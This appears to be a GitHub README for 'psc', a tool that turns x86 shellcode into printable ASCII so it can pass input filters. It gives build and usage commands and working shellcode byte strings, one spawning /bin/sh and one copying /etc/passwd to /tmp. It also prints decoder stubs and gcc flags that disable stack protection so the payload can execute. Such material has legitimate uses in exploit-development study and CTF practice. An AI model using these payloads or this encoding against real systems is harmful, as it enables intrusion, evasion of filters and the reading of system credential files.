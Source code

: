 # `psc`: Printable Shellcode Compiler

## Getting started
The entire tool resides in `psc.c`. To compile & install the tool, run -

```bash
make
sudo make install
```

The install command copies the psc (executable) and psc.7 (man page) to system directories prefixed at `/usr/local`.

To run without installing -

```bash
# access man page
man ./psc.7

# run the tool
./psc <some_shellcode>
```

## Basic commands

To get printable shellcode of an arbitrary shellcode ("\xcd\x80..") -

```bash
psc "\xcd\x80.."
```

To generate a C stub along with the printable shellcode -

```bash
# generate the C stub
psc -c "\xcd\x80.." >run.c

# compile the output & run it
gcc -m32 -fno-stack-protector -z execstack -o run run.c
./run
```

Retrieve only the encoded payload from the printable shellcode -

```bash
psc -e "\xcd\x80.."
```

For an exhaustive list of options and examples, please refer to the man page of psc.

## Examples

Shellcode: Spawn /bin/sh

```bash
# generate C stub
./psc -c "\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" >run.c

# compile & run the output
gcc -m32 -fno-stack-protector -z execstack -o run run.c
./run
```

Shellcode: Copy `/etc/passwd` to `/tmp/outfile`

```bash
# generate C stub
./psc -c "\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80" >run.c

# compile & run the output
gcc -m32 -fno-stack-protector -z execstack -o run run.c
./run

# verify
cat /tmp/outfile
```

## Our Decoder
To convert to printable representation, use -

```bash
echo -e "\x60\x50..."
```

__Non-Printable Decoder__
`\x60\x50\x59\x8d\x49\x43\x51\x5a\x80\x39\x26\x74\x35\x30\xc0\x30\xdb\x32\x01\x40\xc0\xe0\x04\x41\x32\x19\x43\xc0\xe3\x02\xc0\xeb\x04\x30\xd8\x88\x02\x42\x30\xc0\x30\xdb\x32\x01\x40\x41\x32\x19\x43\xc0\xe0\x06\xc0\xe3\x02\xc0\xeb\x02\x30\xd8\x88\x02\x42\x41\x75\xc6\x61`

__Printable Decoder__
`\x60\x50\x59\x6a\x30\x58\x34\x30\x48\x50\x5b\x6a\x30\x58\x30\x59\x35\x30\x41\x4f\x30\x59\x4f\x30\x59\x60\x30\x41\x61\x30\x59\x61\x30\x41\x62\x30\x59\x69\x30\x41\x6a\x30\x59\x6a\x30\x41\x6b\x30\x59\x6d\x30\x59\x6e\x72\x49\x49\x30\x59\x37\x30\x41\x38\x30\x59\x38\x30\x41\x39\x30\x59\x3d\x30\x59\x3e\x30\x59\x47\x51\x5a\x4f\x79\x49\x26\x74\x3c\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x49\x43\x3f\x2c\x34\x32\x41\x4a\x40\x24\x3C\x3f\x27\x32\x30\x27\x77\x42\x49\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x4a\x43\x32\x41\x4b\x40\x3f\x2c\x36\x24\x3f\x30\x27\x77\x42\x4a\x42\x42\x41\x41\x41\x75\x41\x61`

__Printable Decoder with test shim__
`\x60\x50\x59\x6a\x30\x58\x34\x30\x48\x50\x5b\x6a\x30\x58\x30\x59\x35\x30\x41\x4f\x30\x59\x4f\x30\x59\x60\x30\x41\x61\x30\x59\x61\x30\x41\x62\x30\x59\x69\x30\x41\x6a\x30\x59\x6a\x30\x41\x6b\x30\x59\x6d\x30\x59\x6e\x72\x49\x49\x30\x59\x37\x30\x41\x38\x30\x59\x38\x30\x41\x39\x30\x59\x3d\x30\x59\x3e\x30\x59\x47\x51\x5a\x4f\x79\x5b\x26\x74\x3c\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x5b\x43\x3f\x2c\x34\x32\x41\x5c\x40\x24\x3C\x3f\x27\x32\x30\x27\x77\x42\x5b\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x5c\x43\x32\x41\x5d\x40\x3f\x2c\x36\x24\x3f\x30\x27\x77\x42\x5c\x42\x42\x41\x41\x41\x75\x41\x61\x31\xc0\xb0\x14\xcd\x80\x50\x5b\x31\xc0\x31\xc9\xb0\x25\xb1\x0f\xcd\x80`
